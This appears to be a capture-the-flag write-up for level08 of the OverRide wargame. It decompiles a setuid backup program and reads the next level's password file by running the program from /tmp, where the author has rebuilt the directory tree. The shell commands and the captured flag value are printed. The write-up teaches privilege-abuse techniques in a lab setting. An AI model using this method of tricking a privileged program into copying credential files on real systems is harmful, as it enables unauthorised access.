 In the user's folder, in addition to the usual executable, there exists a `/backups` folder, 
which contains only a `.log` file.

While experimenting with the program:

```bash
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 test
ERROR: Failed to open test
level08@OverRide:~$ echo "hello" > /tmp/test
level08@OverRide:~$ ./level08 /tmp/test
ERROR: Failed to open ./backups//tmp/test
```

As soon as a valid file can be read by the program, it adds “./backups/” to the beginning of the name.

If we specify only the /tmp folder, there will be no error, and the program will finish execution by adding tmp to the backup folder. 
Obviously, since it is a folder, there is no content present:

```bash
level08@OverRide:~$ ./level08 /tmp
level08@OverRide:~$ ls backups/
tmp
level08@OverRide:~$ cat backups/tmp
level08@OverRide:~$ cd backups/
level08@OverRide:~/backups$ cat .log
LOG: Starting back up: /tmp
LOG: Finished back up /tmp
```

Let's examine the code.
This part checks if an argument is present and if the file `./backups/.log` can be opened:

```C
if (argc != 2)
    printf("Usage: %s filename\n", *argv);
  log = fopen("./backups/.log", "w");
  if (!log)
  {
    printf("ERROR: Failed to open %s\n", "./backups/.log");
    exit(1);
  } 
```

Then, a call to the function `log_wrapper()` will write in the .log file the string "Starting back up: " 
followed by the file specified as an argument.
```C
log_wrapper(log, "Starting back up: ", argv[1]);
```

Here's the first check, if the file cannot be read, we exit here:
```C
stream = fopen(argv[1], "r");
  if (!stream)
  {
    printf("ERROR: Failed to open %s\n", argv[1]);
    exit(1);
  }
```
If the file exists and can be read, the string “./backups” will be added to 
the dest[124] buffer and concatenated with the file passed as an argument:

```C
strcpy(dest, "./backups/");
strncat(dest, argv[1], 99 - strlen(dest));
```

Then, the program opens and creates the file ./backups/{argv[1]}, and writes the 
content of the file argv[1] into ./backups/argv[1]:

```C
fd = open(dest, 193, 432LL);
  if (fd < 0)
  {
    printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
    exit(1);
  }
  while (1)
  {
    buf = fgetc(stream);
    if (buf == -1)
      break;
    write(fd, &buf, 1uLL);
  }
```

The main problem is the addition of the file into ./backup.

Trying to read the .pass file directly won't work because the directory tree does not exist in the backups folder:
```bash
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

and we don't have the rights to create it:
```bash
level08@OverRide:~/backups$ mkdir home
mkdir: cannot create directory `home': Permission denied
```

The detail that can save us is this line:
```C
strcpy(dest, "./backups/");
```

We can see that the dest buffer will start in the current directory of the program's execution. 
This means we can place ourselves wherever we want, for example, in a folder where we have creation rights!

**Then, place yourself in /tmp and replicate the exact directory tree from level09 up to .pass.**

And there's the flag!

```C
level08@OverRide:/tmp$ ../home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
